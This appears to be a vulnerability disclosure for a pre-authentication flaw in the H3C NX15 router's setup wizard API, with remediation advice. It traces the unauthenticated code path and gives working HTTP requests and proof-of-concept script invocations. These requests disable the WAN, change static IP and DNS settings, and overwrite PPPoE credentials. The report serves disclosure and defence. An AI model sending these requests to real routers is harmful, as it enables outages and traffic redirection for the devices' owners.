








# H3C NX15 R017 `/api/wizard/networkSetup` Pre-authentication WAN Configuration Modification

## Summary

H3C NX15 Router firmware NX15V100R017 exposes the setup wizard endpoint `/api/wizard/networkSetup` without authentication. A remote attacker who can reach the web management interface can modify WAN configuration before login.

The issue allows unauthenticated changes to WAN mode, static addressing, DNS servers, and PPPoE credentials. This can disrupt connectivity or redirect router traffic through attacker-controlled network settings.

## Vendor and Product

- Vendor: H3C
- Product: NX15 Router
- Affected firmware: NX15V100R017 / R017
- Component: Web setup wizard API
- Vulnerable endpoint: `POST /api/wizard/networkSetup`

## Vulnerability Type

- Missing authentication for a critical configuration function
- Suggested CWE: CWE-306
- Attack vector: Remote
- Authentication required: No
- User interaction required: No
- Privileges required: None

## Impact

An unauthenticated attacker can modify WAN configuration, including:

- Disabling the WAN interface.
- Changing the WAN mode to DHCP, static IP, PPPoE, bridge, or disabled.
- Replacing DNS servers.
- Writing attacker-controlled PPPoE username and password values.
- Causing denial of service or traffic redirection.

## Technical Details

The web API exposes wizard endpoints before login. The vulnerable endpoint:

```text
/api/wizard/networkSetup
```


is processed by the wizard protocol conversion layer and mapped to the privileged backend operation:

```text
esps.wan set
```

The Lua wizard mapping constructs an internal ubus request equivalent to:

```lua
ubus_cmd[1] = {
  ["id"] = 1,
  ["path"] = "esps.wan",
  ["func"] = "set",
  ["args"] = { ["list"] = { para } },
  ["type"] = 0
}
```

The wizard protocol handler performs body parsing and protocol conversion, but it does not add an authentication check. As a result, an unauthenticated HTTP request can reach the high-privilege WAN configuration backend.

More precisely, the request path is:

```text
POST /api/wizard/networkSetup
  -> PATH_INFO=/wizard/networkSetup
  -> /www/api main dispatches /wizard before calling FCGI_UserAuth
  -> /usr/lib/lua/wizard/wizard.lua resolves the module name "networkSetup"
  -> /usr/lib/lua/wizard/networkSetup.lua maps the request to esps.wan set
  -> /usr/lib/lua/protol_cvt.lua performs ubus.connect() and conn:call()
```

Static evidence for the unauthenticated path is strong:

- In `/www/api`, `main` checks `PATH_INFO` and routes `"/wizard"` requests before the later `HTTP_AUTHENTICATION` and `FCGI_UserAuth(...)` logic.
- `/usr/lib/lua/wizard/wizard.lua` uses the last URL path component as the Lua module name.
- `/usr/lib/lua/wizard/networkSetup.lua` directly builds a ubus command for `esps.wan` method `set`.
- `/usr/lib/lua/protol_cvt.lua` decodes the JSON request, resolves the module, and executes `conn:call(v.path, v.func, v.args)`.

## Firmware Paths for Audit

The following paths are firmware-internal paths relative to the extracted firmware root filesystem:

- `/www/api`: web API binary that dispatches `/api/wizard/*` requests and contains the wizard protocol forwarding logic.
- `/usr/lib/lua/wizard/wizard.lua`: wizard dispatcher that resolves `/wizard/<name>` to the `<name>.lua` module.
- `/usr/lib/lua/wizard/networkSetup.lua`: Lua mapping for `/api/wizard/networkSetup`; maps the wizard request to `esps.wan set`.
- `/usr/lib/lua/wizard/getNetworkConf.lua`: readback helper for verifying that unauthenticated writes changed the live WAN configuration.
- `/usr/lib/lua/protol_cvt.lua`: wizard protocol conversion layer used by the web API before calling backend ubus objects.
- `/usr/libexec/rpcd/esps.wan`: privileged WAN configuration backend script implementing the `set` method.

## Reproduction

Use the included PoC to change the WAN mode without logging in:

```bash
python3 poc/preauth_wizard_networksetup_toggle.py \
  --base http://192.168.8.1
```

Use the broader PoC to test static, PPPoE, or DNS-modification cases:

```bash
python3 poc/preauth_wizard_networksetup_hijack.py \
  --base http://192.168.8.1 \
  --mode static
```

Step-by-step manual verification:

1. Read the current WAN state without authentication:

```http
POST /api/wizard/getNetworkConf HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json

{}
```



2. Send the unauthenticated write request:

```http
POST /api/wizard/networkSetup HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json

{
  "intf": "WAN1",
  "workMode": "static",
  "ip": "1.2.3.4",
  "submask": "255.255.255.0",
  "gwIp": "1.2.3.1",
  "dnsMaster": "8.8.8.8",
  "dnsSlave": "1.1.1.1",
  "mtu": 1500
}
```

3. Read back the WAN state again through `POST /api/wizard/getNetworkConf` or, if desired, through authenticated `esps.wan.get`.

Expected result:

- The request succeeds without an `AUTHENTICATION` header.
- A second unauthenticated `POST /api/wizard/getNetworkConf` shows the modified WAN values.
- If authenticated verification is desired, `esps.wan.get` and `esps.wan.status` return the same changed state.
- The PoC can restore the WAN mode after verification.

BurpSuite step-by-step reproduction:

1. Send a baseline read request in Burp Repeater:

```http
POST /api/wizard/getNetworkConf HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Connection: close

{}
```

2. Send the unauthenticated write request:

```http
POST /api/wizard/networkSetup HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Connection: close

{"intf":"WAN1","workMode":"disabled"}
```

3. Send the baseline read request again and confirm that `data.workMode` changed to `disabled`.

4. Restore the WAN mode after verification:

```http
POST /api/wizard/networkSetup HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Connection: close

{"intf":"WAN1","workMode":"dhcp"}
```

Optional Burp requests may also set static IP, DNS, and PPPoE credential fields to demonstrate that the endpoint can change more than only the `workMode` field.

## Evidence

- `/www/api main` routes `"/wizard"` before the later `HTTP_AUTHENTICATION` / `FCGI_UserAuth(...)` path used for `/esps`.
- `/usr/lib/lua/wizard/networkSetup.lua` directly maps the request to ubus `esps.wan set`.
- `/usr/lib/lua/protol_cvt.lua` performs the resulting ubus call through `ubus.connect()` and `conn:call(...)`.
- Runtime testing confirmed unauthenticated modification of WAN mode, static IP settings, DNS settings, and PPPoE fields, with readback through `/api/wizard/getNetworkConf`.

## Attachments

- Report: `report/preauth_wizard_networksetup_report.md`
- PoC: `poc/preauth_wizard_networksetup_hijack.py`
- PoC: `poc/preauth_wizard_networksetup_toggle.py`

## Remediation

- Require a valid administrator session for `/api/wizard/networkSetup`.
- Restrict setup wizard write operations after initial device provisioning is complete.
- Enforce authentication in the central wizard protocol handler, not only in individual Lua mappings.
- Add server-side validation and audit logging for WAN configuration changes.
